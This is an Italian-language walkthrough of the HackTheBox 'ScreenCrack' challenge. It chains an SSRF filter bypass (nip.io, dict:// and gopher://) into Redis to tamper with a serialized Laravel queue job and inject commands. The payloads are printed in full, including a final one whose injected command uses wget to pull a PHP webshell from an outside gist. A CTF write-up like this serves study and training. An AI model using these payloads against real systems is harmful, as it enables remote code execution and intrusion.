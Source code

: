 # ScreenCrack HTB challenge WRITEUP
[Exploit.py](exploit.py) Made by: ([@Gianlush]), ([@heisengit])

## step 1: tentativo di SSRF
Non si può accedere banalmente all'indirizzo localhost poichè il backend fa un controllo e filtra l'url che viene inserito nel form. Quindi il primo passo è stato cercare un metodo per bypassare quei filtri. La soluzione trovata è stata utilizzare un dominio particolare (nip.io) che consente di personalizzare la risoluzione dns di qualsiasi url.

```payload = "http://127-0-0-1.nip.io"```

![step1](images/step1.png)

## step 2: ricerca servizi vulnerabili

Runnando il docker della challenge, ed avviando una shell è possibile notare la presenza di un altro servizio sulla porta 6379, cioè REDIS (un DB cache-based). Tuttavia il payload precedente non funzionava per accedere a questo servizio quindi cercando online soluzioni per effettuare ssrf abbiamo notato che è possibile comunicarci usando url scheme differenti (quali dict:// o gopher://).

```payload = dict://127-0-0-1.nip.io/info```

![step2](images/step2.png)

Questo payload consente di eseguire comandi sul client redis, utilizzando i ":" come spazio (scoperto per tentativi).

### step 2.5: redis rabbit hole

Seguendo la documentazione di Redis e smanettando con i suoi comandi abbiamo tentato di eseguire un qualche tipo di code injection, la quale sarebbe stato possibile se non fosse per la presenza di una flag (enable-protected-config) che rende il redis.conf immutabile e che abbiamo cercato di bypassare (inutilmente).

![step3](images/step3.png)

## step 3: follow the input

Dopo aver rinunciato a quella strada abbiamo deciso di seguire meglio il flusso del nostro input, notando che nel file [FileQueue.php](challenge/app/Message/FileQueue.php) è presente una chiamata a system() che potrebbe essere un possibile punto di attacco qualora fossimo in grado di manipolare la variabile $filepath. Questa strada, inzialmente scartata poichè sembrava impossibile manipolare il valore della variabile, è diventanta nuovamente possibile una volta scoperta la console Redis, ed in particolare un key al suo interno che memorizza tutti i file caricati.

![step4](images/step4.png)

Nel frattempo ci siamo spostati dentro al docker per utilizzare redis in maniera più agevole e capirci meglio, ed è qui che abbiamo visualizzato il contenuto delle flag sopracitate, che sarebbe stato altrimenti impossibile tramite web utilizzando il protocollo dict, visto che la key conteneva i ":" che sarebbe invece stati interpretati come spazi:

![step5](images/step5.png)


Manipolando quei dati, e facendoci stampare di volta in volta l'url dato in pasto a curl nel file SiteShotService.php ed il pathfile nel file FileQueue.php abbiamo visto che è possibile modificare l'esecuzione del comando system("rm "filepath).

In particolare, modificando il campo uuid ed inserendo del codice, una volta trascorsi i 600 secondi del [job-runner.sh](config/job-runner.sh) la queue viene svuotata, il file eliminato e quindi il nostro codice eseguito.
### PoC:
```payload = "uuid\\\";s:51:\\\"d9b86d9c-cf9f-40bf-a641-a0b76e432c2a;touch funziona\\\";```
Utilizzando il comando lset di Redis per modificare l'entry come detto si ottiene il risultato desiderato:

![step6](images/step6.png)

## step 4: un passo indietro rispetto a dict://
A questo punto sono sorti i problemi con il il protocollo dict poichè questo richiedeva l'uso dei ":" come space, cosa che andava in contrasto con i ":" usati da redis. Senza trovare un modo di bypassare il problema abbiamo riprovato l'utilizzo di gopher. Questo infatti sembrava funzionare bene con curl da terminale:

![step7](images/step7.png)

Inoltre utilizza il %20 come spazio. L'unico problema è che, poichè la connessione non termina, quando usato tramite la webapp va in timeout. Questo ci ha fatto credere inizialmente che non funzionasse, ma in realtà anche senza ricevere una risposta, i nostri comandi passano e vengono eseguiti.

Dopo vari tentativi abbiamo capito che la preparazione del payload per Gopher richiedeva semplicemente un url encoding su tutto il payload. Per estrarre la flag abbiamo usato una php shell reperibile tramite wget, da qui il seguente payload (per esteso):

```payload = gopher://127-0-0-1.nip.io:6379/_LSET laravel_database_queues:default 0 "{\"uuid\":\"733ba127-c15e-46b7-baef-d511b91af345\",\"displayName\":\"App\\\\Jobs\\\\rmFile\",\"job\":\"Illuminate\\\\Queue\\\\CallQueuedHandler@call\",\"maxTries\":null,\"maxExceptions\":null,\"failOnTimeout\":false,\"backoff\":null,\"timeout\":null,\"retryUntil\":null,\"data\":{\"commandName\":\"App\\\\Jobs\\\\rmFile\",\"command\":\"O:15:\\\"App\\\\Jobs\\\\rmFile\\\":1:{s:9:\\\"fileQueue\\\";O:21:\\\"App\\\\Message\\\\FileQueue\\\":3:{s:8:\\\"filePath\\\";s:45:\\\"\\/src\\/09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220.txt\\\";s:4:\\\"uuid\\\";s:213:\\\"09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220;cd public;wget https:\\/\\/gist.githubusercontent.com\\/joswr1ght\\/22f40787de19d80d110b37fb79ac3985\\/raw\\/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4\\/easy-simple-php-webshell.php;touch asd\\\";s:3:\\\"ext\\\";s:3:\\\"txt\\\";}}\"},\"id\":\"4ARs2xRDfUDqwEf3x5hneSeeRA0zkjaL\",\"attempts\":0}"```

 Una volta URL-ENCODATO, inviato ed attesi in 10min che il processo job-runner.sh svuotasse la queue ed eseguisse il nostro comando, abbiamo ottenuto una shellphp e estratto la flag tramite cat.

 ![step8](images/step8.png)